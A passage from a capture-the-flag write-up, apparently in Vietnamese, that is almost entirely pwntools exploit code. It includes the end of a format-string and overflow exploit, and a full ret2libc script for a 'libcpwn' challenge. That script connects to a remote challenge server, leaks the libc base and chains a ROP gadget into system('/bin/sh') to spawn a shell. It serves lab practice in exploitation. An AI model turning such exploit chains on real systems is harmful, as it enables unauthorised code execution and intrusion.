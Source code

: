 ```python
    p.sendlineafter(b'data: ',data)
def printf_():
    p.sendlineafter(b'> ',b'3')
    
payload = b'%4919c%8$hn'
payload = payload.ljust(15,b'a')
payload += p64(change)
strcpy(payload)
printf_()
strcpy(b'a'*255)
strcat(b'z'*16 + p64(0xdeadbeefcafebabe) + p64(0xcafe401256))
strcat(b'k'*3 + p64(0xdeadbeefcafebabe) + p64(0xfe401256))
input()
strcat(b'v'*3 + p64(0xdeadbeefcafebabe) + p64(0x401256))


p.interactive()
```


## libcpwn


checksec : 

![image](https://hackmd.io/_uploads/SJ6HR8-wJl.png)



bài này đơn giản là ret2libc thôi và được cho sẵn địa chỉ libc và canary cũng tắt nên sẽ không giải thích nhiều
![image](https://hackmd.io/_uploads/SyzmCUZvJl.png)

script 

```
#!/usr/bin/env python3

from pwn import *

exe = ELF("./libpwn_patched")
libc = ELF("./libc.so.6")
ld = ELF("./ld-2.39.so")

context.binary = exe
#p = process()
p = remote('61.14.233.78',8332)

pop_rdi = 0x000000000010f75b
p.recvuntil(b'This program is just a print function. Bye!')
p.recvlines(2)
libc.address = int(p.recvline()[:-1],16) - libc.sym.fgets
print(hex(libc.address))

payload = b'a'*0x30
payload += p64(0)
payload += p64(libc.address+pop_rdi)
payload += p64(next(libc.search(b'/bin/sh\x00')))
payload += p64(pop_rdi+1+libc.address)
payload += p64(libc.sym.system)
input()
p.sendline(payload)

p.interactive()
```
